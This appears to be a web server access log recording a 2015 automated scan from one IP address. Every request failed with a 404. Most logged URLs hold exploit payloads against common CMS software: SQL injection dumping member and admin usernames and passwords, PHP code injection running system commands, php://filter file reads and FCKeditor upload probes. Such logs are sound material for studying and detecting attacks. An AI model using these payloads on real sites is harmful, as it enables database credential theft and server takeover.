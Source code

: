       183.60.243.234 [05/Mar/2015:18:00:56 +0800] /flash_upload.php?modelid=1%20and%20(SELECT%201%20FROM%20(select%20count(*),concat(floor(rand(0)*2),(SELECT%20concat(0x7e,0x7e,username,0x7e,0x7e,password,0x7e,0x7e)%20from%20phpcms_member%20limit%201))a%20from%20information_schema.tables%20group%20by%20a)b) 404 0.016 0.016 4477 
      183.60.243.234 [05/Mar/2015:18:00:56 +0800] /demos/upload.php 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:56 +0800] /yp/product.php?pagesize={${print(md5(0.0389157973565))}} 404 0.012 0.012 4477 
      183.60.243.234 [05/Mar/2015:18:00:54 +0800] /huangou.php?id=1/**/and/**/1=2/**/union/**/select/**/0,1,2,3,md5(7758520),5,6,7 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:54 +0800] /common/lib/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media 404 0.016 0.016 4477 
      183.60.243.234 [05/Mar/2015:18:00:54 +0800] /index.php?_m=mod_user&_a=do_reg 404 0.013 0.013 4477 
    
      183.60.243.234 [05/Mar/2015:18:00:54 +0800] /index.php?_m=mod_user&_a=do_reg 404 0.013 0.013 4477 
      183.60.243.234 [05/Mar/2015:18:00:54 +0800] /fck/editor/filemanager/browser/default/connectors/php/connector.php?Command=FileUpload&Type=File&CurrentFolder=/ 404 0.011 0.011 4477 
      183.60.243.234 [05/Mar/2015:18:00:54 +0800] /fckeditor/editor/filemanager/upload/php/upload.php?Type=Media 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:54 +0800] /pwwiki/pmwiki.php 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:53 +0800] /huangou.php?id=1/**/and/**/1=2/**/ununionion/**/seselectlect/**/0,1,2,3,md5(7758520),5,6,7 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:53 +0800] /suggestwordList.php?searchWord=1&language=-5178%20OR%20%28SELECT%209505%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%280x716c736571%2C%28SELECT%20MID%28%28IFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%29%2C1%2C50%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%203%2C1%29%2C0x7177707971%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.CHARACTER_SETS%20GROUP%20BY%20x%29a%29 404 0.183 0.183 4477 
      183.60.243.234 [05/Mar/2015:18:00:53 +0800] /api.php 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:53 +0800] /index.php?option=com_fss&view=test&prodid=777777.7'+union+all+select+77777777777777%2c77777777777777%2c77777777777777%2cconcat(0x3a3b3c3d3d3c3b3a%2cdatabase()%2c0x3a3b3c3d3d3c3b3a)%2c77777777777777%2c77777777777777%2c77777777777777%2c77777777777777%2c77777777777777%2c77777777777777%2c77777777777777--+D4NB4R%26limitstart%3d0 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:18:00:53 +0800] /xmlrpc.php 404 0.014 0.014 4477 
      183.60.243.234 [05/Mar/2015:18:00:53 +0800] /pmwiki.php 404 0.011 0.011 4477 
      183.60.243.234 [05/Mar/2015:18:00:53 +0800] /api/uc.php?code=5b8flJX%2Bxy1Cv97XmC6LHcjkTOAcdGIA0HhH04grt95Uh6TJ0Y0zIyqmyvfmITeL%2F47YRoPLqItWV1DhjdywkJRjpD0hg4edjdvHridVFZpq12xX%2BC8k8iPpJ1HVJQ 404 0.010 0.010 4477 
      183.60.243.234 [05/Mar/2015:18:00:53 +0800] /wp-content/themes/linenity/functions/download.php?imgurl=theme-functions.php&name=theme-functions.php 404 0.013 0.013 4477 
      183.60.243.234 [05/Mar/2015:18:00:53 +0800] /fckeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=FileUpload&Type=File&CurrentFolder=/ 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:18:00:53 +0800] /dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=dompdf.php 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:52 +0800] /index.php?case=archive&act=orders 404 0.010 0.010 4477 
      183.60.243.234 [05/Mar/2015:18:00:52 +0800] /plus/download.php?id=1&open=2&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=95&arrs2[]=97&arrs2[]=114&arrs2[]=99&arrs2[]=116&arrs2[]=105&arrs2[]=110&arrs2[]=121&arrs2[]=32&arrs2[]=117&arrs2[]=110&arrs2[]=105&arrs2[]=111&arrs2[]=110&arrs2[]=32&arrs2[]=115&arrs2[]=101&arrs2[]=108&arrs2[]=101&arrs2[]=99&arrs2[]=116&arrs2[]=32&arrs2[]=49&arrs2[]=44&arrs2[]=50&arrs2[]=35 404 0.011 0.011 4477 
      183.60.243.234 [05/Mar/2015:18:00:52 +0800] /index.php/module/action/param1/{${print(chr(126).chr(126).chr(126))}}{${system(ps.chr(0x20).chr(0x2d).ef)}}{${print(chr(126).chr(126).chr(126))}} 404 0.010 0.010 4477 
      183.60.243.234 [05/Mar/2015:18:00:52 +0800] /admin/Lib/Action/noadmin.class.php?action=b78a0164cbef4b513aaae59653f525dd&a=0f5264038205edfb1ac05fbb0e8c5e94 404 0.014 0.014 4477 
      183.60.243.234 [05/Mar/2015:18:00:52 +0800] /index.php?m=brand&s=detail&id=test'+and+(select+1+from+(select+count(*),concat(version(),floor(rand(0)*2))x+from+information_schema.tables+group+by+x)a);%23 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:52 +0800] /huangou.php?id=1/**/and/**/1=2/**/union/**/select/**/0,1,2,adminname,adminpass,5,6,7/**/from/**/duoduo_duoduo2010 404 0.008 0.008 4477 
    